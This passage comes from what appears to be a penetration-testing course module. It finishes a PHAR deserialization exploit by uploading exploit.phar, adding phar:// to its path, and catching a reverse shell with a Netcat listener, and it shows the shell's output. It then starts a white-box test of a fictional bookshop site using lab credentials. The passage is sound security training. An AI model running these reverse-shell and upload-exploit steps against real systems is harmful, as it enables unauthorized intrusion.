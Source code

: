 Then following the rest of the steps in the last section, we will upload `exploit.phar` as a profile picture, copy the link, prepend `phar://` to the path, and start a local Netcat listener to receive our reverse shell:

```shell
nc -nvlp 9999

Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:57892.
ls -l
total 24
drwxr-xr-x 2 kali kali 4096 Oct 19 21:38 css
-rw-r--r-- 1 kali kali 5963 Oct 19 21:35 default.jpg
-rw-r--r-- 1 kali kali    0 Oct 19 21:39 favicon.ico
-rw-r--r-- 1 kali kali 1710 Apr 12  2022 index.php
-rw-r--r-- 1 kali kali   24 Apr 12  2022 robots.txt
drwxr-xr-x 2 kali kali 4096 Oct 19 22:51 uploads

```


# Identifying a Vulnerability (Python)

* * *

## Scenario (HTBooks)

For this next scenario, let's imagine another company named `HTBooks GmbH & Co KG` hired us to perform a white-box test of their website. We are given the URL, the source code, and the credentials: `franz.mueller:bierislekker`

* * *

## Initial Recon

Looking at the main page, we see nothing interesting, just some placeholder text.

![](https://academy.hackthebox.com/storage/modules/169/3/1-main-page.png)

If we click on the `Sign up` link in the navbar, we will find that user registrations have been temporarily disabled. Fortunately for us, we were given a set of credentials, so this doesn't matter too much.

![](https://academy.hackthebox.com/storage/modules/169/3/2-sign-up-disabled.png)

Heading on over to `/login`, we can log into the website using the credentials `franz.mueller:bierislekker` given to us.

![](https://academy.hackthebox.com/storage/modules/169/3/3-login-in-franz.png)
